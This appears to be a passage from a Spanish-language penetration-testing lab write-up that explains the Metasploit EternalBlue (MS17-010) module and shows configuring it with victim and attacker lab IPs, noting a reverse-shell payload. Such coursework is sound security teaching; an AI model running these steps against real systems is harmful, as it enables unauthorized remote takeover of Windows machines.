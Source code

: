 - Explica brevemente el funcionamiento del script `exploit/windows/smb/ms17_010_eternalblue` y por qué se selecciona este módulo en particular para obtener acceso remoto.

    El módulo `exploit/windows/smb/ms17_010_eternalblue` funciona explotando una vulnerabilidad crítica en el protocolo **SMBv1** de Windows. Su mecanismo principal se basa en enviar paquetes **SMB** especialmente diseñados que provocan un desbordamiento de buffer en el sistema objetivo, permitiendo la ejecución de código arbitrario con privilegios **SYSTEM** en el equipo remoto.

    Este módulo en particular se selecciona debido a su alta efectividad y confiabilidad en sistemas Windows vulnerables. No requiere credenciales de acceso previas y funciona directamente a través del puerto 445, que es el puerto estándar para el servicio **SMB**. Su capacidad para otorgar acceso con los máximos privilegios del sistema lo hace especialmente valioso en pruebas de penetración y evaluaciones de seguridad.

### 2.3. Configuración del Exploit en el Framework Metasploit (2 puntos)
- Configura el exploit mencionado anteriormente, especificando los parámetros necesarios, como las direcciones IP del atacante y la víctima.  

- **Tip:** Configura los parámetros RHOSTS para la IP de la máquina objetivo y LHOST para tu máquina atacante. Estos son esenciales para establecer la conexión.

- **Tip adicional:** También debes configurar el payload para el reverse shell. Busca en el metasploit un payload (que ya anteriormente hemos usado en clase) para obtener un reverse shell connection.

    - Configurar **RHOST**, la IP de la maquina victima.
    ```terminal
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.0.2.4
    ```
    - Configurar **LHOST**, la IP de la maquina atacante.
    ```terminal
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.2.9
    ```
    ![figura](/assets/images/EP/2.3.1.png)

    - Verificamos mediante el comando **show options**

        ```terminal
        msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
        ```